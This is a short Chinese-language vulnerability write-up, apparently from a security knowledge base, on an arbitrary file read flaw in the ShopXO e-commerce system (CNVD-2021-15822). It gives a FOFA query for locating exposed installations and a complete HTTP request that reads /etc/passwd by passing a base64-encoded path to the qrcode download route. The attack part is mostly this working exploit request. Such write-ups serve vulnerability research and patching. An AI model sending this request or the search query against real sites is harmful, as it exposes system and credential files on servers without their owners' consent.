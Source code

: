 ```yaml
---
title: ShopXO download 任意文件读取漏洞 CNVD-2021-15822
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - CMS漏洞
 - ShopXO
---
```


# ShopXO download 任意文件读取漏洞 CNVD-2021-15822

## 漏洞描述

ShopXO是一套开源的企业级开源电子商务系统。ShopXO存在任意文件读取漏洞，攻击者可利用该漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> ShopXO

## FOFA

> [!NOTE]
>
> app="ShopXO企业级B2C电商系统提供商"

## 漏洞复现

商城主页如下

![](/img/20210924015324546644.png)

发送漏洞请求包

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

其中 **/url/xxxx** 中的 base64 解码后为 **/etc/passwd**

![image-20210602084556460](/img/20210924020300349377.png)

